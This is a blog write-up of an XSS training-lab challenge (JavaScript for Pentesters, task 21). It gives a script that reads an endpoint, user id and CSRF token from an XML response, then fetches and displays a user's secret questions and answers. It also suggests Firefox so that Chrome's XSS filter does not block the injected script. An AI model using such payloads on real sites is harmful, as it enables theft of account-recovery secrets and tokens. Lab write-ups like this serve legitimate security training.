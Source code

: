 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-11-03 15:54:41+00:00
layout: post
slug: xss-multilevel-xml-parsing-js-pentesters-task-21
title: 'XSS - Multilevel XML Parsing: JS for Pentesters task 21 write up'
wordpress_id: 5784
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-21 of JS for pentesters series by security-tube - Multilevel XML parsing
---
```


We have already seen and cracked challenges that deals with Multilevel JSON and HTML parsing already. Now let us look into the 3rd one namely parsing XML.

[JS for Pentesters task 21](pentesteracademylab.appspot.com/lab/webapp/jfp/21)

Our objective of this challenge is to Find John's Secret Questions+Answers using an XSS vulnerability on this page and Display the Questions+Answers in the div with id "result". Before carrying in with the challenge, I strongly recommend you to read "[Ajax: Parsing and reading XML files]({{ site.url }}/2014/09/14/ajax-parsing-reading-xml-files-using-ajax/)" for the basics on how to parse and read XML file using Ajax.
{% highlight html lineos %}
    <script>
        var request = new XMLHttpRequest();
        request.onreadystatechange = function() {
            if ((request.readyState === 4) && (request.status === 200)) {
                var endpoint = request.responseXML.getElementsByTagName('endpoint')[0].firstChild.nodeValue;
                var uid = request.responseXML.getElementsByTagName('uid-param-value')[0].firstChild.nodeValue;
                var csrf_token = request.responseXML.getElementsByTagName('token-param-value')[0].firstChild.nodeValue;
                var params = request.responseXML.getElementsByTagName('uid-param-value');    
                var req = new XMLHttpRequest();
                var url = endpoint + "?uid=" + uid + "&token=" + csrf_token;
                alert(url);
                req.open('GET', url);
                req.onreadystatechange = function() {
                    if ((req.readyState === 4) && (req.status === 200)) {
                      	var result = document.getElementById("result").innerHTML = req.responseText;
                    }
                }
                req.send()
            }
        }
        request.open('GET', '/lab/webapp/jfp/21/getxml');
        request.send();
    </script>
{% endhighlight %}

Since the response we get from the request is in the format XML, we use the keyword `responseXML` instead of responseText. From XML files, we can easily take any values we need just like accessing values from HTML files. Thats why you can see that we are accessing the values we need from the XML document using `document.getElementsByTagName()` which is usually used to select data from an HTML file.

**Note:**

1) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt `XSS` stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..

By this, we are completing the write ups of [Pentester Academy's JavaScript for Pentesters course challenge write ups]({{ site.url }}/category-jsp/). Hope you enjoyed solving the challenges as much as we do :)
